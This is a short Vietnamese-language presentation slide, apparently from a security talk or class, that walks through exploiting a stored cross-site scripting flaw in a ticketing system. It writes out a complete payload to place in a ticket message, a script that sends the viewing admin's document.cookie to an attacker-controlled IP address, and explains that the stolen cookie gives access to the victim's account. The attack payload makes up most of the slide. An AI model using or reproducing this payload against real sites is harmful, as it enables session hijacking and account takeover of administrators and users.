

# Khai thác
Tạo một tiket , và truyền vào phần message payload : <script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>
Tiket sẽ được lưu trữ trong cơ sở dữ liệu và khi được truy cập bởi admin, nó sẽ ngầm gửi cookie của admin tới trang web attacker đang kiểm soát.
Từ đó kẻ tấn công sẽ có được cookie người dung và có quyền truy cập vào tài khoản của họ.